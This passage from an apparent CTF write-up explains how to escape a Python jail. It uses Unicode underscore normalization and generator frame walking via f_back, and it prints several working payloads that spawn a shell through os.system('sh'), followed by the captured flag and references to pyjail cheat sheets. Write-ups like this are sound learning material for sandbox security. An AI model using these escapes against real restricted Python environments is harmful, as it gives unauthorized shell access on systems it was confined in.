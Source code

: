Ok, so the only character that can actually be used at the start of an identifier is the real 0x5F ASCII underscore. TL;DR is - **we cannot use dunder identifiers (methods or attributes) at all**.

What caught my eye in the links above was the use of frames:

```python
# <class 'generator'> - instance
(_ for _ in ()).gi_frame.f_globals["__loader__"].load_module("os").system("sh")
```

Although there are underscores in these identifiers, they are **not** the first character, so we **can** use our normalization trick to get around the limitation in these specific cases.

The idea is to use `f_back` on a `frame` to "walk out of the eval" and be able to reach globals and builtins that are not limited. I was debugging this locally, I came up with this:

```python
f"{(lambda g: (g.send(None), g)[1])((i for i in [0])).gi﹍frame.f﹍back.f﹍back.f﹍builtins['\x5f\x5fimport\x5f\x5f']('os').system('sh')}"
```

After a lot of trials/errors and researching, I came across [this SSTF 2023 CTF pyJail](https://gist.github.com/lebr0nli/c2c0f42757f05813e3282c22114abe82).

They created an array, then a generator on top of that, and then appended that generator into the array it was generating upon. *juicy!!!!* Exactly.

So, the hunch of using a frame and walking it back with `f_back` was right all along, we just needed to convince the garbage collector to not clear the `f_back` frames and here it is achieved by the cyclic reference.

```python
[a := [], g := (g.gi﹍frame.f﹍back.f﹍back.f﹍builtins['\x5f\x5fimport\x5f\x5f']('os').system('sh') for g in a),
 a.append(g), g.send(None)]
```

Flag

```
SK-CERT{wh0_w0uld_h4v3_th0ght_y0u_c4n_3sc4pe_w1th0ut__}
```

>Thats it on Python jails i managed a few.

---

>References and resources that helped so do so:
- [https://github.com/HackTricks-wiki/hacktricks/tree/master/src/generic-methodologies-and-resources/python/bypass-python-sandboxes](https://github.com/HackTricks-wiki/hacktricks/tree/master/src/generic-methodologies-and-resources/python/bypass-python-sandboxes)
- [https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass](https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass)
- [https://github.com/jailctf/pyjail-collection](https://github.com/jailctf/pyjail-collection)
